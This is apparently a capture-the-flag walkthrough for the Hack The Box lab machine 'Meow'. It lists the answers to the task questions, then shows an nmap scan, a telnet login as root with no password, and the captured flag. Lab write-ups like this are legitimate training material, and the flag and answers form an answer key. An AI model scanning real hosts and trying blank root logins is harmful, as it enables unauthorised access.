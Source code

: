 # Meow

> What does the acronym VM stand for? 

#### Virtual Machine 

---

> What tool do we use to interact with the operating system in order to start our VPN connection? 

#### terminal 

---

> What service do we use to form our VPN connection? 

#### openvpn 

---

> What is the abreviated name for a tunnel interface in the output of your VPN boot-up sequence output? 

#### tun 

---

> What tool do we use to test our connection to the target? 

#### ping 

---

> What is the name of the script we use to scan the target's ports? 

#### nmap 

---

> What service do we identify on port 23/tcp during our scans? 

#### telnet 

---

> What username ultimately works with the remote management login prompt for the target? 

#### root 

---

> Submit root flag 

We don't know anything about the host, so let's start with scan all the ports

```console
$ nmap -sV 10.129.137.161
Starting Nmap 7.80 ( https://nmap.org ) at 2021-10-28 00:08 CEST
Nmap scan report for 10.129.137.161
Host is up (0.21s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can connect to the machine using `telnet`

```console
$ telnet 10.129.137.161
Trying 10.129.137.161...
Connected to 10.129.137.161.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

```

The machines ask for a username...maybe `root`?

```console
Meow login: root
```

We now have access to `bash`, let's print the flag

```console
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

#### HTB{b40abdfe23665f766f9c61ecba8a4c19}